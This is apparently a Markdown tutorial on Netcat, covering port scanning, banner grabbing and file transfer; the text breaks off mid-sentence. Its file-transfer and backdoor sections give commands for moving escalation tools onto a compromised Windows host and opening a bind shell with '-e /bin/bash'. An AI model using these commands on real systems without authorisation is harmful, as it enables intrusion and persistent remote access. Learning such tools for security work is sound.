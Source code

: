# Using Netcat for port scanning
The most basic form of command is:
`# nc [options] host port(s)`
options are described below
host can be either an IP address or valid hostname
Ports can be a single port or a range of ports such as 20-53 or individual ports separated by spaces.

### Let's get started
A small tool that can do remote port scanning would be nice to have and Netcat can fill this role very well and a lot of other ones.

A typical command to perform port scanning would be:
`# nc -v -w 3 -z 192.168.1.69 20-150`
The first portion of the command line that says: nc -v -w 3 which simply tells Netcat to give us more verbose feedback and to timeout after 3 seconds if no connections could be established.

The -z switch prevent Netcat from sending any data to a TCP connection and it will only send very limited data to a UDP connection.

Here is another example: you will use UDP protocol instead of the TCP protocol.
`# nc -v -w 3 -z -u 192.168.1.69 20-100`

### Using Netcat for banner grabbing
Another neat usage of Netcat is for banner grabbing(technique to glean information of the system on the Internet)
`# nc -v -n 192.168.1.69 80
GET / HTTP/1.1\n\n`
Once connected above you simply issued the command: GET HTTP

### Combining both port scan and banner identification
Now we will combine both Port Scan and banner identification.
```bash
# echo -en "GET / HTTP/1.1\n\n" | nc -v -n 216.58.199.228 80
```

### Using Netcat to transfer files
Netcat can be used as well to transfer files between two hosts. It can be a very effective tool to transfer the files that you need in order to escalate your privileges on a remote host.
Let's suppose we have the following scenario. You have a Windows host that you successfully compromised and you wish to transfer additional tools to it in order to escalate your privileges.
on the remote host:
`# nc -l -p 53 > toolkit.zip`
on the local host:
`# nc [remote host] 53 < toolkit.zip`

### Setting up a backdoor
You have compromised a Windows host and you wish to establish a backdoor that you will be able to connect to from your BackTrack attack machine.
on the compromised windows host:
`# nc -l -p 80 -d -e /bin/bash`
on the local host:
`# nc [remote host] 80`
`ls`

### Creating a backup on a remote machine
First you must setup a listener on the host that will receive the files. After issuing the 
`nc -l 134 | tar xvfp -` command. it seems like no ac
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTYxMDM5NTk2OCwxNDU2MDQxNjE1LC0yMD
MzODI5MjMsLTMxNzQwMTQ4MSw1Nzg1OTM4NDIsMTE5OTI1Mzk3
MCw5NDYwMjIzMjMsMTM3Mjk4NjIwMF19
-->